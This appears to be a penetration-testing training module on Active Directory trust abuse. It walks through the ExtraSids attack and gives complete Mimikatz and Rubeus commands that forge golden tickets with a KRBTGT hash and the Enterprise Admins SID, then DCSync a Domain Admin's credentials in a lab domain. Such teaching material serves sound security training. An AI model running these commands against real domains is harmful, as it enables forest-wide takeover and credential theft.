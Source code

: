 ## SID History Primer

The [sidHistory](https://docs.microsoft.com/en-us/windows/win32/adschema/a-sidhistory) is used in migration scenarios. If a user in one domain is migrated to another domain, a new account is created in the second domain. The original user's SID will be added to the new user's SID history attribute, ensuring that the user can still access resources in the original domain.

SID history is intended to work across domains, but can be used in one domain. Using Mimikatz, an attacker can perform SID history injection and add an administrator account to the SID History attribute of an account they control. When logging in with this account, all of the SIDs associated with the account are added to the user's token.

If the SID of a Domain Admin account is added to the SID History attribute of the account, then this account will be able to perform DCSync and create a [Golden Ticket](https://attack.mitre.org/techniques/T1558/001/) or a Kerberos TGT, which will allow us to authenticate as any account in the domain of our choosing for further persistence.

## ExtraSids Attack - Mimikatz

This attack allows for the compromise of a parent domain once the child domain has been compromised. Within the same AD forest the, [sidHistory](https://docs.microsoft.com/en-us/windows/win32/adschema/a-sidhistory) property is respected due to a lack of [SID Filtering](https://www.serverbrain.org/active-directory-2008/sid-history-and-sid-filtering.html) protection. SID Filtering is a protection put in place to filter out authentication requests from a domain in another forest across a trust. Therefore, if a user in a child domain that has their sidHistory set to the Enterprise Admins group (which only exists in the parent domain), they are treated as the member of this group, which allows for administrative access to the entire forest.

To perform this attack after compromising a child domain, we need the following:

- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain.
- The SID of the Enterprise Admins group of the root domain.
- With this data collected, the attack can be performed with Mimikatz.

Now we can gather each piece of data to perform the ExtraSids attack. First we need to obtain the NT hash for the [KRBTGT](https://adsecurity.org/?p=483) account, which is a service account for the Key Distribution Center (KDC) in Active Directory. The account KRB (Kerberos) TGT is used to encrypt/sign all Kerberos tickets granted within a given domain. DCs use the account's password to decrypt and validate Kerberos tickets. The KRBTGT account can be used to create Kerberos TGT tickets that can be used to request TGS tickets for any service on any host in the domain. This is also known as the golden ticket attack and is a well-known persistence mechanism for attacker in Active Directory environments. The only way to invalidate a Golden Ticket is to change the password of the KRBTGT account, which should be done periodically and definitely after a penetration test assessment where full domain compromise is reached.

Since we have compromised the child domain, we can log in as a Domain Admin or similar and perform the DCSync attack to obtain the NT hash for the KRBTGT account.

### Obtaining the KRBTGT Account's NT Hash using Mimikatz
```powershell-session
PS C:\htb>  mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt
```

We can use the PowerView `Get-DomainSID` function to get the SID for the child domain, but this is also visible in Mimikatz output.

### Using Get-DomainSid
```powershell-session
PS C:\htb> Get-DomainSID

S-1-5-21-2806153819-209893948-922872689
```

Next, we can use the `Get-DomainGroup` from PowerView to obtain the SID for the Enterprise Admins group in the parent domain. We could also do this with the [Get-ADGroup](https://docs.microsoft.com/en-us/powershell/module/activedirectory/get-adgroup?view=windowsserver2022-ps) cmdlet with a command such as `Get-ADGroup -Identity "Enterprise Admins" -Server "INLANEFREIGHT.LOCAL"`.

### Obtaining Enterprise Admins Group's SID using Get-DomainGroup
```powershell-session
PS C:\htb> Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid

distinguishedname                                       objectsid                                    
-----------------                                       ---------                                    
CN=Enterprise Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL S-1-5-21-3842939050-3880317879-2865463114-519
```

At this point we have gathered the following data points:

- The KRBTGT hash for the child domain: `9d765b482771505cbe97411065964d5f`
- The SID for the child domain: `S-1-5-21-2806153819-209893948-922872689`
- The name of a target user in the child domain (does not need to exist to create our Golden Ticket!): We'll choose a fake user: `hacker`
- The FQDN of the child domain: `LOGISTICS.INLANEFREIGHT.LOCAL`
- The SID of the Enterprise Admins group of the root domain: `S-1-5-21-3842939050-3880317879-2865463114-519`

Before the attack, we can confirm no access to the file system of the DC in the parent domain.

### Using ls to Confirm no Access
```powershell-session
PS C:\htb> ls \\academy-ea-dc01.inlanefreight.local\c$
```

### Crating a Golden Ticket with Mimikatz
```powershell-session
PS C:\htb> mimikatz.exe

mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
```

### Confirming a Kerberos Ticket is in Memory Using klist
```powershell-session
PS C:\htb> klist

Current LogonId is 0:0xf6462

Cached Tickets: (1)

#0>     Client: hacker @ LOGISTICS.INLANEFREIGHT.LOCAL
        Server: krbtgt/LOGISTICS.INLANEFREIGHT.LOCAL @ LOGISTICS.INLANEFREIGHT.LOCAL
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 3/28/2022 19:59:50 (local)
        End Time:   3/25/2032 19:59:50 (local)
        Renew Time: 3/25/2032 19:59:50 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

From here, it is possible to access any resources within the parent domain, and we could compromise the parent domain in several ways.

### Listing the Entire C: Drive of the Domain Controller
```powershell-session
PS C:\htb> ls \\academy-ea-dc01.inlanefreight.local\c$
```

## ExtraSids Attack - Rubeus

First, we'll confirm that we cannot access the parent domain Domain Controller's file system.

### Using ls to Confirm No Access Before Running Rubeus
```powershell-session
PS C:\htb> ls \\academy-ea-dc01.inlanefreight.local\c$
```

Next, we will formulate our Rubeus command using the data we retrieved above. The `/rc4` flag is the NT hash for the KRBTGT account. The `/sids` flag will tell Rubeus to create our Golden Ticket giving us the same rights as members of the Enterprise Admins group in the parent domain.

### Getting a Golden Ticket using Rubeus
```powershell-session
PS C:\htb>  .\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt
```

### Confirming the Ticket is in Memory Using klist
```powershell-session
PS C:\htb> klist

Current LogonId is 0:0xf6495

Cached Tickets: (1)

#0>	Client: hacker @ LOGISTICS.INLANEFREIGHT.LOCAL
	Server: krbtgt/LOGISTICS.INLANEFREIGHT.LOCAL @ LOGISTICS.INLANEFREIGHT.LOCAL
	KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
	Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent 
	Start Time: 3/29/2022 10:06:41 (local)
	End Time:   3/29/2022 20:06:41 (local)
	Renew Time: 4/5/2022 10:06:41 (local)
	Session Key Type: RSADSI RC4-HMAC(NT)
	Cache Flags: 0x1 -> PRIMARY 
	Kdc Called: 
```

Finally, we can test this access by performing a DCSync attack against the parent domain, targeting the `lab_adm` Domain Admin user.

### Performing a DCSync Attack
```powershell-session
PS C:\Tools\mimikatz\x64> .\mimikatz.exe

mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm
```

When dealing with multiple domains and our target domain is not the same as the user's domain, we will need to specify the exact domain to perform the DCSync operation on the particular domain controller. The command for this would look like the following:
```powershell-session
mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm /domain:INLANEFREIGHT.LOCAL
```

